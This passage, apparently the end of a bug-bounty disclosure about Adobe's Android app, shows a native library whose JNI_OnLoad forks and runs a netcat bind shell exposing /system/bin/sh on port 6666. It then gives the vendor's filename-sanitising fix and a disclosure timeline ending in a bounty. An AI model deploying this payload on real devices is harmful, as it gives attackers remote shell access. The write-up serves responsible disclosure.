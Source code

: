 ```
#include <jni.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>


JNIEXPORT jint JNI_OnLoad(JavaVM* vm, void* reserved) {

    if (fork() == 0) {
        system("toybox nc -p 6666 -L /system/bin/sh -l");
    }
    JNIEnv* env;
    if (vm->GetEnv(reinterpret_cast<void**>(&env), JNI_VERSION_1_6) != JNI_OK) {
        return JNI_ERR;
    }
    return JNI_VERSION_1_6;
}


```

### # Vulnerability Fix !

In `com.adobe.libs.buildingblocks.utils.BBIntentUtils.java`

```
private static final String FILE_NAME_RESERVED_CHARACTER = "[*/\\|?<>\"]";
public static String getModifiedFileNameWithExtensionUsingIntentData(String str, String str2, ContentResolver contentResolver, Uri uri) {
        if (TextUtils.isEmpty(str)) {
            str = BBConstants.DOWNLOAD_FILE_NAME;
        }
        String str3 = null;
        if (!(contentResolver == null || uri == null)) {
            str3 = MAMContentResolverManagement.getType(contentResolver, uri);
        }
        String str4 = !TextUtils.isEmpty(str3) ? str3 : str2;
        if (!TextUtils.isEmpty(str4)) {
            String fileExtensionFromMimeType = BBFileUtils.getFileExtensionFromMimeType(str4);
            if (!TextUtils.isEmpty(fileExtensionFromMimeType)) {
                if (str.lastIndexOf(46) == -1) {
                    str = str + '.' + fileExtensionFromMimeType;
                } else {
                    String mimeTypeForFile = BBFileUtils.getMimeTypeForFile(str);
                    if (TextUtils.isEmpty(mimeTypeForFile) || (!TextUtils.equals(mimeTypeForFile, str3) && !TextUtils.equals(mimeTypeForFile, str2))) {
                        str = str + '.' + fileExtensionFromMimeType;
                    }
                }
            }
        }
        return str.replaceAll(FILE_NAME_RESERVED_CHARACTER, "_");
    }


```

Have a nice day! and if you got any doubt you can contact me on Twitter.

#### Timeline

*   Jul 29th,2021 - Reported the vulnerability to adobe
*   Aug 4th ,2021 - report traiged
*   Oct 13th,2021 - Vulnerability Fixed
*   Dec 4th ,2021 - $10000 bounty awarded from GPSRP